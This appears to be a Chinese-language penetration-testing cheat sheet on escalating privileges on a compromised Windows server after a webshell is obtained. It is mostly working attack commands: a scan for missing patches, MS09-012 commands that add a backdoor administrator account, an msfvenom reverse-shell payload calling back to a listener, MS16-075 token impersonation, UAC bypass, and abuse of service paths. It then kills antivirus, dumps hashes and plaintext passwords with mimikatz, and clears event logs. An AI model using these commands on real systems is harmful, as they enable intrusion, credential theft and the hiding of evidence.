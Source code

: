 思路：目前我们是有拿到webshell的，那么说明该站点根目录是具有可读写的权限，此时我们可以通过菜刀上传一个脚本去检测网站目录的权限（使用脚本666.asp检测目录权限）
上传cmd.exe
setp xxx\cmd.exe


systeminfo>micropoor.txt&(for %i in ( KB977165 KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780 ) do @type micropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a micropoor.txt
或者
systeminfo > micropoor.txt & (for %i in (KB977165 KB2160329 KB2503665 KB2592799

KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228

KB3143141 KB3141780 KB885835 KB896424 KB893066 KB890830 KB873333 KB891781

KB873339 KB885836 KB888113 KB890046 KB891861 KB893086 KB896358 KB899587 KB899588

KB900725 KB901214 KB902400 KB904706 KB905414 KB905749 KB908519 KB908531 KB910437

KB911562 KB911927 KB912919 KB913580 KB914388 KB915800 KB916281 KB917344 KB918118

KB918439 KB918899 KB919007 KB920213 KB920342 KB920670 KB920683 KB920685 KB922582

KB922819 KB923191 KB923414 KB923980 KB924270 KB924667 KB925398 KB925902 KB926122

KB926255 KB926436 KB927436 KB928843 KB928255 KB929123 KB930178 KB930916 KB931784

KB932168 KB932590 KB933566 KB935839 KB936021 KB936782 KB937143 KB938127 KB938464

KB939373 KB940541 KB941569 KB941644 KB942830 KB943055 KB943460 KB944338 KB944653

KB945553 KB946648 KB948496 KB950762 KB950974 KB951066 KB951748 KB952004 KB952954

KB953155 KB953298 KB953761 KB954155 KB954459 KB955069 KB955839 KB956803 KB957095

KB957097 KB958644 KB959426 KB959454 KB960225 KB960803 KB961501 KB961729 KB963093

KB967715 KB968389 KB968537 KB968585 KB969604 KB970430 KB971468 KB971657 KB971961

KB973507 KB973869 KB973904 KB974112 KB974318 KB974392 KB974571 KB975025 KB975467

KB975560 KB975713 KB976098 KB976323 KB976662 KB976749 KB977914 KB978037 KB978338

KB978542 KB978601 KB978695 KB978835 KB979309 KB979683 KB980232 KB981957 KB982316)

do @findstr /i /c:"%i" micropoor.txt > nul || @echo %i is missing) & del /f /q

micropoor.txt




一、巴西烤肉-MS09-012
pr.exe "whoami"
pr.exe "net user yy 110815_yw /add"
pr.exe "net localgroup administrators yy /add"

打开远程桌面
pr.exe "3389.exe"
用mstsc连接

二、烂土豆-MS16-075
kali:
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.163.133 lport=4444 -f exe -o /tmp/hack.exe

use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
run

getuid
getsystem
**==此时权限不够，需要提权==**，烂土豆上场
background
search ms16-075
use 0
show options
info
set target 1 

sessions -i
set session x

getuid
MS16-075漏洞在提权过程中，是不会直接把当前会话权限提升到system的，需要伪造身份令牌来窃取token值，达到提权

use incognito
加载incoginto功能(用来盗窃目标主机的令牌或是假冒用户)

使用list_tokens -u命令可以列出目标主机用户的可用令牌，找到system权限。最后伪造token值（身份令牌）就可以成功提权了
list_tokens -u

输入命令进行token值伪造：
impersonate_token "NT AUTHORITY\SYSTEM"
getuid


load kiwi
creds_all


`===========win7================`
use exploit/windows/local/ask
quit
use exploit/windows/local/bypassuac

getuid
    admin
getsystem
    system




windows提权之其他方式提权

方式一：利用系统SC命令提权。
1，使用命令创建一个服务，执行命令会弹出一个新的cmd窗口，此时我们就得到了一个system权限的cmd环境。

SC是用于与服务控制管理器和服务进行通信的命令行程序。提供的功能类似于“控制面板”中“管理工具”项中的“服务”

当我们有administrator权限时，可以通过SC命令创建一个服务，通过SC命令启动此服务即可提权。

具体操作（以win2003系统为例）

`sc Create syscm binPath= "cmd /K start" type= own type= interact`

#命令的意思是：创建一个syscm服务，服务的binPath路径等"cmd /K start"（启动一个CMD）

type表示类型

2，执行命令：
`sc start syscm`

会弹出一个新的cmd窗口，此时我们就得到了一个system权限的cmd环境。


方式二 ：利用配置文件中带有不安全的空格提权

==`当系统管理员配置Windows服务时，他们必须指定要执行的命令，或者运行可执行文件的路径。`==

==`当Windows服务运行时，会发生以下两种情况之一。如果给出了可执行文件，并且引用了完整路径，则系统会`==

==`按字面解释它并执行。但是，如果服务的二进制路径未包含在引号中，则操作系统将会执行找到的空格分隔的`==

==服务路径的第一个实例。==

那么我们可以利用这个机制，通过上传脚本并将脚本名命名为路径空格前面的内容：
比如路径中存在Common Files，那么我们将脚本命名为：Common.exe，当管理员去点击第三方软件或者重启服务器时，触发系统去调用软件的安装路径：Common Files中的服务或者程序的时候，可能就会触发我们上传的Common.exe脚本。
此时服务器重启，系统调用配置文件时也调用了我们刚刚上传的脚本文件，如果遇到没有安全意识的运维人员可能就直接忽略掉了此次提醒了。那么如果遇到第三方软件是使用管理员身份进行安装的话呢，我们的脚本木马也会继承管理员权限。那么我们也成功的达到了提权的目的。

**注意：此种方法一般适用于第三方应用软件，特别是那些不带数字签名的软件。一**

**般的操作系统自带的服务因为存在数字签名所以即使去进行更改，也不会去成功。**

**当然前提是对方的这个第三方应用软件的安装路径也是具有可读写的权限才行！**




## 后续提权操作  
https://www.cnblogs.com/backlion/p/9484950.html

## 1. 基本信息搜集

检测目标机是否为虚拟机。在Meterpreter会话执行以下命令即可：

run post/windows/gather/checkvm #是否虚拟机，此处判断并不准确，模块代码仍需完善  
通过meterpreter的killav脚本来杀死目标主机运行的杀毒软件，在Meterpreter会话执行以下命令即可：
run killav
获取安装软件信息，在Meterpreter会话执行以下命令即可：
run post/windows/gather/enum_applications #获取安装软件信息
获取目标机器最近的文件操作，在Meterpreter会话执行以下命令即可：
run post/windows/gather/dumplinks   #获取最近的文件操作



2.hash与明文密码读取
获取目标机系统用户Hash，，在Meterpreter会话执行以下命令即可：

run post/windows/gather/smart_hashdump
获得了本地账户的hask，获取明文密码，我们需要先载入mimikatz模块，在Meterpreter会话执行以下命令即可：

load mimikatz  
然后需要确保当前进程为系统权限，直接执行以下命令：
msv
返回了以下信息：
[+] Running as SYSTEM Retrieving msv credentials  上述返回信息表明当前进程是`SYSTEM`权限.  
然后执行以下命令即可导出系统用户明文密码：
kerberos

执行以下命令通过mimikatz命令行方式导出系统用户hash：
meterpreter > mimikatz_command -f samdump::hashes

执行以下命令通过`mimikatz`命令行方式导出系统用户的明文密码：
mimikatz_command -f sekurlsa::searchPasswords


## 3. 清理痕迹

直接执行以下命令：

clearev  
可以看到如下返回：

meterpreter > clearev


**windows10提权方法：**
https://blog.csdn.net/qq_54030686/article/details/127812207

